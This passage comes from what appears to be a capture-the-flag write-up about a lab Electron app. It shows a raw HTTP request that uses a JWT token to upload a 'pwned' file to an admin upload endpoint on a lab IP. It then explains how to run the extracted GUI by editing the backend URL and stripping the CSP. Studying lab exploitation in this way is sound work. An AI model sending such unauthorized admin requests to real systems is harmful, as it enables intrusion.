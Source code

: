 ```bash
POST /api/admin/upload HTTP/1.1
Host: 10.129.255.120:9000
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Cache-Control: max-age=0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRldmVsb3BlciIsImlhdCI6MTY3MDA2MjEwMywiZXhwIjoxNjcwMDgzNzAzfQ.G1M-pWAsNnKSFxSoljbBd_lwZVGurgn9_IApQppnGgs
Upgrade-Insecure-Requests: 1
Accept-Language: en-US,en;q=0.9
Content-Length: 247
Content-Type: multipart/form-data; boundary=02427ffc75ddf91f43eb19151c610654

--02427ffc75ddf91f43eb19151c610654
Content-Disposition: form-data; name="uploadedFile"; filename="testfile"

pwned

--02427ffc75ddf91f43eb19151c610654--
```

### BONUS PART - Running GUI app

> This part is not needed to continue exploitation & Understanding the exploit path

So, if we try to open the GUI application. It will keep hanging and that’s because it wasn’t able to reach the api as the `config.json` file which includes the `BACKEND_URL` variable is missing

so here we have two options:

1. Create the `config.json` file with the proper `BACKEND_URL`, which is the instance ip
2. The lazy way (Which I used XD) is to change all the `_config_json__WEBPACK_IMPORTED_MODULE_1__.BACKEND_URL` to the ip instance.

![A screenshot of replacing strings with vscode](/static/images/stack-the-flags-2022/vscode-replace.png)

Another thing to change is the CSP in the `index.html`.
We can either change `127.0.0.1` to the machine ip or (as you probably already guessed as I am lazy) just remove the whole CSP

![A screenshot that shows the Content Security Policy of the Web page](/static/images/stack-the-flags-2022/html-csp.png)

then we can run the app

```
hcue@pjsk:~/htb/medimelecro/resources » electron extract
```

![A screenshot of the Electron App GUI](/static/images/stack-the-flags-2022/app-gui.png)

We can also see also the previous conversation that we extracted from the web api
